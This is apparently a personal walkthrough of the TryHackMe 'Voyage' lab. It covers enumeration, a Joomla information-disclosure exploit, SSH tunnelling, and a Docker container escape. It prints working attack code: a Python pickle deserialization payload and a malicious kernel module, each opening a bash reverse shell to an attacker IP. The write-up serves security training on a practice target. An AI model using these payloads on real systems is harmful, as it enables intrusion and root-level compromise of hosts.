







# 📝 Writeup – Voyage (TryHackMe)

---

## ENUMERATION
Started off with nmap to find open ports then followed with a detailed scan off the open ports.   
```bash
# Quick port scan
nmap -p- --min-rate 2000 -vv <IP>

# Detailed scan of open ports
nmao -sC -sV -p22,80,2222 -vv <IP>
```   
**Screenshot**:    

   

SSH is running on an odd port thats obv wierd but the version doesnt hv any known vulnerabilities to exploit so for now we can leave that and focus on port 80. From the nmap scan we found `robots.txt`. Even though it says 'disallowed' we'll still go and check it cause that what we do 

### PORT 80
While your checking around the website run a ffuf scan simultaneously.
```bash
ffuf -w <wordlist> -u http://<IP> -s
```    
I checked all the supposed disallowed directories found out a few things but nothing that could take me further towards the flag. So i started searching about `joomla` on Google. From that i got the location of the `xml` file that'll tell me the version of joolma thats running the website. After getting the version i could search for exploits in that version of joolma. 

**Screenshot**:  

     

ExploitDB had an exploit for `joolma v4.2.7` ([Information disclosure](https://www.exploit-db.com/exploits/51334)). Once i understood what the exploit was about i navigated to the directory. I checked out each of the available links wrote down everything i had got username, password, author, mail, secret ...

P.S: I would have shown the way i note down the things i find during enumeration but my VM crashed. It was lagging way too much. So i deleted it, a broken tool is useless to me !_! . Instead of using a VM i decided to use WSL its so much better 

**Screenshot**:    

     
      

With the username & Password i could login in to SSH on port 2222. This is a docker environment but the process is the same as priveledge escalation. Enumerate & exploit !!

---
## CONTAINER BREAK
### 192.168.100.10
Honestly speaking didnt know what to look for exactly to escape the container. I was already root in the environment so i was kinda lost. I had to look up some blogs about [**Escaping Docker**](https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/). After i understood what to look for i started the escape.

`/etc/hosts` gave me the internal IP of the docker environment. I ran an nmap scan to detect available hosts within the `/24` subnet.  
```bash
# only host scan no port scan
nmap -sn 192.168.100.0/24

# port scan
nmap -p- 192.168.100.1,10,12

```

**Screenshot**:  

   

To access the internal service running on Port 80 i had to port forward it to my localhost through this ssh. Basically SSH acts as the tunnel connecting my localhost to the internal IP.
```bash
ssh -L 5000:192.168.100.12:5000 root@<IP> -p 2222 -N
```

**Screenshot**:  



The default credentials `admin:admin` worked.

#### DIRECTORY SCANNING

```bash
# scan the internal website which is being port forwarded
ffuf -w <wordlist> -u http://localhost:5000 -s
```
In the mean time basic website enumeration using dev tools. There's a cookie whose value looks like hex. So i tried to decode it using cyberchef but it gave me garbage values. Its possible for it to be a `serialised object`. To test we we'll deserialize the hex cookie to see if we get any values. I already did this so i know that its a serialized object and the website is vulnerable to Insecure object deserialization. So we craft a malicious serialized object to get a reverse shell.

```python
# deserializer.py

import binascii
import pickle
import json
import base64

cookie = input("Enter the cookie/serialized object (hex or base64): ")

# Detect if input is hex or base64
try:
    # Try hex first
    data_bytes = binascii.unhexlify(cookie)
except Exception:
    try:
        # Fallback to base64
        data_bytes = base64.b64decode(cookie)
    except Exception as e:
        print("Invalid input: not hex or base64.", e)
        exit()

# Try to load as pickle
try:
    data = pickle.loads(data_bytes)
    print("Loaded as pickle:", data)
except Exception:
    # Try UTF-8 decode
    try:
        text = data_bytes.decode('utf-8')
        try:
            # Try JSON parse
            data = json.loads(text)
            print("Loaded as JSON:", data)
        except Exception:
            # Just a string
            print("Raw string data:", text)
    except Exception:
        # Show raw bytes
        print("Raw bytes data:", data_bytes)
```      
```python
# serializer.py

import pickle
import os
import base64

class Exploit(object):
    def __reduce__(self):
        # The command to execute when deserialized
        cmd = ("bash -c 'bash -i >& /dev/tcp/<ATTACK_IP>/4444 0>&1'")
        # reduce returns a callable and tuple arguments
        return (os.system, (cmd,))

# Serialize the malicious object to a string of bytes
malicious_payload = pickle.dumps(Exploit())
hex_payload=malicious_payload.hex()

# Often payloads are base64 encoded for easier transmission (e.g., over HTTP)
encoded_payload = base64.b64encode(malicious_payload).decode('utf-8')

print(f"Generated b64 encoded payload: {encoded_payload}")
print(f"Generated hex encoded payload: {hex_payload}")
```   
Paste the hex malicious pickle in cookie , refresh and get reverse shell on nc listener.

**Bonus**: while fuzzing directories you get `/console`. You need a pin to unlock it . It said the pin is printed on the stdout that runs the server so try running `app.py`. 

### 192.168.100.12
Back again in a docker environment. Again we continue to enumerate the target. You can we `linpeas` to enumerate docker environment as well but i was too lazy to transfer linpeas to the target. Had to adjust WAF cause im using wsl. I was just way too bored atp so i did manual enumeration.

```bash
# docker capailites
capsh --print
```

**Screenshot**: 

     

I searched about all the things mentioned in the output out of which `cap_sys_module` was the most usefull. Processes having this capability can alter/modify the kernel modules. 
`/lib/module` is where all the kernal modules are stored. For the exploit i used `6.8.0-1030-aws` 

Note: `uname -r` gives a higher kernel version which is not there in /lib/module so we can't use that.

Create a kernel module & Makefile to complie it
```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/<ATTACK_IP>/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

```makefile
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) modules

clean:
    make -C /lib/modules/6.8.0-1030-aws/build M=$(PWD) clean
```
**Warning**: The tab before make is crucial.

I was lazy to transfer the file so i used cat & printf to get the file on the target.
```bash
# kernel module
cat <<EOF > reverse-shell.c
>> PASTE HERE
>> EOF

# Makefile
printf "obj-m += reverse-shell.o\n\nall:\n\tmake -C /lib/modules/6.8.0-1030-aws/build M=\$(PWD) modules\n\nclean:\n\tmake -C /lib/modules/6.8.0-1030-aws/build M=\$(PWD) clean\n" > Makefile

```

Run `make` to compile it. 
```bash
# listerner
nc -nvlp 4444

# insert the malicious module
insmod reverse-shell.ko
```  

*Get that flag!*

## REFERENCES 📚
* [https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_module](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_module)

* [https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/](https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/)


